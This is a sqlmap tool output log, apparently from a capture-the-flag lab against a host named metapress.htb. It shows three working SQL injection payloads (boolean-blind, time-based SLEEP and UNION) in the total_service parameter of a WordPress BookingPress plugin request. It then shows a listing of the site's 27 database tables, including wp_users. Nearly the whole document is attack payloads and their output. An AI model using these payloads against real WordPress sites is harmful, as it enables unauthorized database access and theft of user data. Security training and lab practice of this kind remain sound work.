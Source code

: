 ```
---
Parameter: total_service (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND 1179=1179 AND (5714=5714

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND (SELECT 3708 FROM (SELECT(SLEEP(5)))gLML) AND (2888=2888

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7162717171,0x70536f744a6c56535468795050594841454258666b4a7a7257675a495659666d5a6b595466697348,0x71787a7671),NULL,NULL,NULL,NULL-- -
---
[10:46:24] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:46:24] [INFO] fetching tables for database: 'blog'
Database: blog
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |
| wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+

[10:46:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/metapress.htb'

[*] ending @ 10:46:24 /2023-02-13/


```
